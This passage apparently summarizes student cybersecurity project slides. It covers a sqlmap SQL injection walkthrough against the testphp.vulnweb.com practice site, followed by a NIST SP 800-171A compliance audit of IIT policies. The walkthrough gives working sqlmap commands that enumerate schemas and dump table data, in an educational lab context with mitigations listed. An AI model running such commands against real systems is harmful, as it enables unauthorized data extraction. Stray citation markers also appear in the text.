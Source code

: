    - Using `-a` (all) to fetch all data from every table automatically:  
     ```bash
     sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables -a
     ```
7. **Filtering Specific Information**  
   - Targeting `information_schema` tables to list system metadata:  
     ```bash
     sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D information_schema --tables
     ```
   - Finding specific columns in a system table, e.g.,  
     `ADMINISTRABLE_ROLE_AUTHORIZATIONS`:  
     ```bash
     sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" \
       -D information_schema -T ADMINISTRABLE_ROLE_AUTHORIZATIONS -columns
     ```
8. **Best Practices & Mitigations**  
   - Demonstrates how to identify injection points, enumerate databases, tables, and columns, and extract sensitive data.  
   - Emphasizes the importance of parameterized queries, ORM protections, input validation, and proper error handling to prevent SQL injection.

---

### 4. IIT’s Cybersecurity Policies for Compliance with NIST SP 800-171A
1. **Title Slide & Team Credits**  
   - “IIT’s Cybersecurity Policies for Compliance with NIST SP 800-171A”  
   - Contributors: Isis Navarro, Joshua Davenport, Trent Kauflin, Raj Gopal, Hui Fang. :contentReference[oaicite:2]{index=2}
2. **Project Overview**  
   - **Purpose**: Evaluating IIT’s cybersecurity policies for compliance with NIST SP 800-171A, ensuring CMMC readiness for DoD contracts and grants.  
   - **Audited Policies**:  
     - Acceptable Use of OTS Resources  
     - Use of Technology Resources  
     - Non-Interference with Technology Infrastructure  
     - Remediation Policy  
     - Security Training Plan
3. **Methodology**  
   - Defined scope across NIST SP 800-171A control families, including Access Controls, Awareness and Training, Audit and Accountability, Configuration Management, Identification and Authentication, Incident Response, Maintenance, Media Protection, Personnel Security, Physical Protection, Risk Assessment, Security Assessment, System and Communications Protection, and System and Information Integrity. Excluded Planning, Systems and Services Acquisition, and Supply Chain Risk Management as not applicable.  
   - Followed a checklist per document using specific source assessment procedures and mapped findings to NIST requirements.  
   - Investigated shortcomings and provided recommendations and concluding observations. :contentReference[oaicite:3]{index=3}
4. **Acceptable Use of OTS Resources**  
   - **Findings**:  
     - Missing explicit mention of MFA and secure communication protocols (NIST AC-17, SC-12).  
     - Annual cybersecurity training exists, but lacks role-specific CUI modules (NIST AT-2).  
     - AI usage limits CUI sharing with unsanctioned tools but no secure transmission guidance (NIST SC-12).  
     - Logging and monitoring do not specify retention, protection, or tamper detection (NIST AU-2, AU-6).  
     - Incident sanctions are defined, but long-term incident response details are absent (NIST IR-4). :contentReference[oaicite:4]{index=4}  
   - **Recommendations**:  
     - Implement MFA for CUI systems (NIST AC-17).  
     - Enforce encrypted communication (VPNs, TLS/SSL) for CUI (NIST SC-12).  
     - Tailor cybersecurity training with role-specific CUI modules (NIST AT-3).  
     - Define logging retention, encryption, and access controls (NIST AU-2, AU-6).  